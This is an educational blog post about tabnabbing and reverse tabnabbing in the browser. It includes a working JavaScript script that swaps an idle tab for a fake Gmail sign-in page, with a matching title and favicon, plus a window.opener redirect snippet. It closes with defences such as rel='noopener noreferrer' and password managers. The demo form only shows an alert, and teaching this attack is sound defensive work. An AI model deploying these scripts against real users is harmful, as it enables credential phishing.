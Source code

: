 ```yaml
---
title: Tabnabbing & Reverse Tabnabbing
date: '2022-12-23'
tags: ['web', 'security', 'software']
draft: false
summary: Tabnabbing, with its reverse variant, is an exploit enabling malicious actors to replace one of your browser's opened window to a site of their choosing.
---
```


# Introduction

When working with links and windows on the web, there are many complex things to consider. Tabnabbing and reverse tabnabbing however, don't require complex factors in your code, and are both easy to pull off and defend against. These attacks mainly utilize the user's attention being somewhere else. While the user is occupied with something else, the tab is either replaced or changed in a way to permit a phishing attack.

# Tabnabbing

First, let's talk about the simple version: tabnabbing. The term was coined in [this article](http://www.icir.org/vern/cs161/demos/tabnabbing/tabnab.html) by Aza Raskin and the steps as explained by them are as follows:

1. A user navigates to your normal looking site.
2. You detect when the page has lost its focus and hasn’t been interacted with for a while.
3. You replace the favicon with the Gmail favicon, the title with “Gmail: Email from Google”, and the page with a Gmail login look-a-like. This can all be done with just a little bit of Javascript that takes place instantly.
4. As the user scans their many open tabs, the favicon and title act as a strong visual cue—memory is malleable and moldable and the user will most likely simply think they left a Gmail tab open. When they click back to the fake Gmail tab, they’ll see the standard Gmail login page, assume they’ve been logged out, and provide their credentials to log in. The attack preys on the perceived immutability of tabs.
5. After the user has entered their login information and you’ve sent it back to your server, you redirect them to Gmail. Because they were never logged out in the first place, it will appear as if the login was successful.

As Raskin notes in their article, the phishing content can be customized for each user in a spear phishing attack. The attack is very effective when posing as bank websites as a critical website warning the user that their login has timed out will not seem suspicious to the user. A user's company, password manager or even government login could be compromised if the victim is not paying attention.

Here's the attack script as seen on [this site's projects page](https://tabnabbing.vercel.app/projects) mostly adapted from [this gist](https://gist.github.com/cabe56/96b387a7f901f0219c8c):

<details>
<summary>Click to expand</summary>
```javascript
<script id="tabnabbing-example" type="application/javascript">
  {
    (function () {
      var TIMER = null
      var HAS_SWITCHED = false

      // Events
      window.onblur = function () {
        TIMER = setTimeout(changeItUp, 3500)
      }

      window.onfocus = function () {
        if (TIMER) clearTimeout(TIMER)
      }

      // Utils
      function setTitle(text) {
        document.title = text
      }

      // This favicon object rewritten from:
      // Favicon.js - Change favicon dynamically [http://ajaxify.com/run/favicon].
      // Copyright (c) 2008 Michael Mahemoff. Icon updates only work in Firefox and Opera.

      const favicon = {
        docHead: document.getElementsByTagName('head')[0],
        set: function (url) {
          this.addLink(url)
        },

        addLink: function (iconURL) {
          var link = document.createElement('link')
          link.type = 'image/x-icon'
          link.rel = 'shortcut icon'
          link.href = iconURL
          this.removeLinkIfExists()
          this.docHead.appendChild(link)
        },

        removeLinkIfExists: function () {
          var links = this.docHead.getElementsByTagName('link')
          for (var i = 0; i < links.length; i++) {
            var link = links[i]
            if (link.type == 'image/x-icon' && link.rel == 'shortcut icon') {
              this.docHead.removeChild(link)
              return // Assuming only one match at most.
            }
          }
        },

        get: function () {
          var links = this.docHead.getElementsByTagName('link')
          for (var i = 0; i < links.length; i++) {
            var link = links[i]
            if (link.type == 'image/x-icon' && link.rel == 'shortcut icon') {
              return link.href
            }
          }
        },
      }

      function createShield() {
        var div = document.createElement('div')
        div.style.position = 'fixed'
        div.style.top = 0
        div.style.left = 0
        div.style.backgroundColor = 'white'
        div.style.width = '100%'
        div.style.height = '100%'
        div.style.textAlign = 'center'
        document.body.style.overflow = 'hidden'

        // var img = document.createElement('img')
        // img.style.paddingTop = '15px'
        // img.src = 'http://img.skitch.com/20100524-b639xgwegpdej3cepch2387ene.png'

        var oldTitle = document.title
        var oldFavicon = favicon.get() || '/favicon.ico'

        div.innerHTML = `<body>
              <div class="box">
                      <h2>Sign in</h2>
                      <p>Use your Google Account</p>
                      <form onsubmit="alert('You got tabnabbed! I hope you didnt enter your password!')">
                        <div class="inputBox">
                          <input type="email" name="email" required onkeyup="this.setAttribute('value', this.value);"  value="">
                          <label>Username</label>
                        </div>
                        <div class="inputBox">
                              <input type="text" name="text" required onkeyup="this.setAttribute('value', this.value);" value="">
                              <label>Password</label>
                            </div>
                        <input type="submit" name="sign-in" value="Sign In">
                      </form>
                    </div>
              </body>`
        //TODO: Afterwards actually route the page to mail.google.com to make sure the victim doesn't notice we tabnabbed them

        // div.appendChild(img)
        document.body.appendChild(div)
      }
      function changeItUp() {
        if (HAS_SWITCHED == false) {
          createShield('https://mail.google.com')
          setTitle('Gmail: Email from Google')
          favicon.set('https://mail.google.com/favicon.ico')
          HAS_SWITCHED = true
        }
      }
    })()}

</script>
```
</details>

# Reverse Tabnabbing

This is an attack where the victim clicks on an unsafely routed link, and when they are spending time on the newly opened page, the original page is replaced with malicious content. The original site containing the unsafe link can be completely oblivious to these events, it only serves to be replaced once the user has clicked the unsafe link.

Explanation given by [OWASP](https://cheatsheetseries.owasp.org/cheatsheets/HTML5_Security_Cheat_Sheet.html#tabnabbing) is as follows:

![With back link](https://owasp.org/www-community/assets/images/TABNABBING_OVERVIEW_WITH_LINK.png)

The attack is typically possible when the source site uses a target instruction in a html link to specify a target loading location that do not replace the current location and then let the current window/tab available and does not include any of the preventative measures detailed below.

The attack is also possible for link opened via the window.open javascript function.

Why is this harmful? Because neither the linked-to page, nor the phishing page lie on the same domain or origin as the original page. The site doesn't need to be compromised. It just needs to allow user-submitted anchors with target="\_blank".

## Examples

Vulnerable page ([landing page of this site](https://tabnabbing.vercel.app)):

```jsx
<button
  onClick={() => {
    window.open('https://tabnabbing.vercel.app/blog')
  }}
>
  Check out our blog!
</button>
```

Malicious site that is linked to ([the blog page of this site](https://tabnabbing.vercel.app/blog)):

```html
<script id="reverse-tabnabbing-example" type="application/javascript">
  {
    function () {
      if (window.opener) {
        window.opener.location = 'https://yildiz.edu.tr'
      }
    }()
  }
</script>
```

# Try it out

This blog contains code to enable tabnabbing and reverse tabnabbing attacks for educational purposes.
To get tabnabbed, visit the [projects](tabnabbing.vercel.app/projects) page and without leaving the page, either click on a project(which will open an external link in another tab) or just click away to another tab for a few seconds. When you look through your tabs, you might see a new fake gmail tab, with a fake gmail login page that contains a half-hearted attempt at imitating the real page's CSS. The phishing login can be improved by using a tool such as [SET](https://github.com/trustedsec/social-engineer-toolkit), this implementation is just for demonstration purposes.
If you would like to try out the reverse tabnabbing method, head to [the landing page of this site](tabnabbing.vercel.app) and click on the "announcement". When the new window is opened, you'll see the previous window changes to an unrelated site. This could be any site the attacker wants you to see, and if you're not paying attention it provides the attacker with an attack vector as big as their imagination.
Both attacks work on all major browsers, as long as the website contains the vulnerabilities described in the article.

# Solutions

The best method to ensure credentials safety on the web is to always use a password manager. There are many free and/or open source tools available, I personally use [Bitwarden](https://bitwarden.com/). There are credentials managers built into all major browsers that mostly negate these attacks and many more, because even if the user doesn't recognize that the login form they are about to fill is fake, the password manager will know, because the URL doesn't match the already-saved legit URL.

To prevent reverse tabnabbing and cut the back link, when developing websites with user-submitted content, add the attribute `rel="noopener"` on the tag used to create the link from the parent page to the child page. This attribute value cuts the link, but depending on the browser, lets referrer information be present in the request to the child page.
To also remove the referrer information use this attribute value: `rel="noopener noreferrer"`.

### Sources

- https://owasp.org/www-community/attacks/Reverse_Tabnabbing

- https://cheatsheetseries.owasp.org/cheatsheets/HTML5_Security_Cheat_Sheet.html#tabnabbing

- http://www.icir.org/vern/cs161/demos/tabnabbing/tabnab.html

- https://gist.github.com/cabe56/96b387a7f901f0219c8c

- https://github.com/EdwinOtten/reverse-tabnabbing-demo/

- https://santexgroup.com/blog/what-is-reverse-tabnabbing-and-why-is-it-important-to-be-aware-of/

- https://github.com/trustedsec/social-engineer-toolkit

- http://danielstjules.github.io/blankshield/

---
